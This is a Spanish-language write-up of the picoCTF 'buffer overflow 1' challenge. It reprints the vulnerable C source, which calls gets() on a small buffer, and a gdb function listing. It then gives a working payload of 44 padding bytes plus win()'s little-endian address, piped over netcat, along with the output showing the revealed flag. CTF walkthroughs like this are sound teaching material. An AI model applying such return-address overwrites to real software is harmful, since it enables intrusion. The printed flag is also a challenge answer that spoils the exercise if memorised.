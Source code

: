 ## Descripción
Control the return address

Additional details will be available after launching your challenge instance.

Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 55558`
## Pistas 
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solución

-  Nos proporciona el archivo ejecutable vuln y su código fuente vuln.c:
```
                                    
┌──(kali㉿kali)-[~]
└─$ cat vuln.c.1   
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


┌──(kali㉿kali)-[~]
└─$ gdb vuln.1
GNU gdb (Debian 13.1-2) 13.1
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln.1...
(No debugging symbols found in vuln.1)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini


```
- Aquí, gets() se usa en la línea 26, que es una función vulnerable porque no verifica el desbordamiento, por lo que aprovecharemos eso. La función win() contiene el lector de banderas, así que esta es la función a la que queremos saltar. Usé pwndbg y usé info functions.
- win() esta en 0x080491f6, así que esta es la dirección de retorno que queremos sobrescribir. Sé que se pueden usar 44 bytes para desbordar el búfer y reescribir la dirección de retorno, así que preparé el relleno de 44 A, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
- Se necesita cambiar el endianness por la dirección de retorno, así que usé, \xf6\x91\x04\x08

```
┌──(kali㉿kali)-[~]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | nc saturn.picoctf.net 64880
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas Adicionales


## Referencias
https://www.cs.virginia.edu/~evans/cs216/guides/x86.html